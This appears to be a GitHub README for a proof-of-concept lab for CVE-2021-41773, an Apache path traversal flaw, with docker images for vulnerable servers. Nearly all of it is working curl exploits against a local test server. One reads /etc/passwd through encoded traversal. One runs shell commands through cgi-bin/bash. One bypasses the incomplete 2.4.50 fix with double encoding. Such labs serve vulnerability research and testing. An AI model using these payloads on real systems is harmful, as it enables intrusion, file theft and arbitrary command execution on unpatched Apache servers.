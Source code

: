 # CVE-2021-41773
## Apache Path Traversal
- Without CGI enabled (docker image h3x/cve202141773:nocgi)
`curl -v 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd'`

- With CGI enabled (docker image h3x/cve202141773:cgi)
	`curl -v 'http://localhost:8081/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"`

- Bug in the fix : still vulnerable in 2.4.50
	`curl 'http://localhost:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd'`